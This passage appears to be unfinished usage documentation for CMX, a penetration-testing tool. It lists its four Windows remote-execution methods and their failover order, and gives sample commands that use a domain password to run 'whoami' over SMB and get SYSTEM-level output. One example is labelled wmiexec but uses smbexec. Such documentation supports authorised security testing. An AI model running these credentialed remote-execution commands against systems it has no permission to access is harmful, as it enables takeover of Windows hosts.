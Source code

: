 Options for executing custom or built-in commands.  


### Execution Methods

CMX has four different command execution methods:
  
- ```wmiexec``` executes commands via WMI
- ```atexec``` executes commands by scheduling a task with windows task scheduler
- ```smbexec``` executes commands by creating and running a service
- ```mmcexec``` similar approach to wmiexec but executing commands through MMC  
   
Details on the execution methods and thier respective advantages can be found  
in the opening comment description of the exec files. /cmx/modules/smb/[name]exec.py  
  
By default CMX will fail over to a different execution method if one fails. It attempts to execute commands in the following order:  

1. ```wmiexec```
2. ```mmcexec```
3. ```atexec```
4. ```smbexec```

If you want to force CMX to use only one execution method you can specify which one using the ```--exec-method``` flag.  
The command execution method is denoted in the Executed Command output line.  
WMIEXEC example, note the 'Executed command via wmiexec' output line.  
```
~# cmx smb 10.10.33.124 -u agrande -p User\!23 -x 'whoami' --exec-method smbexec
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Executing Command
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Execution Completed.
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Results:
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124     nt authority\system

```

  
### Executing Commands
  
In the following example, we try to execute ```whoami``` on the target using the ```-x``` flag:  
```
#~ cmx smb 10.10.33.124 -u agrande -p User\!23 -x 'whoami' --exec-method smbexec
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Executing Command
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Execution Completed.
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Results:
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124     nt authority\system
```


------------------------------------------------------------------------
------------------------------------------------------------------------
**Current doc only finished to here. 8/20**
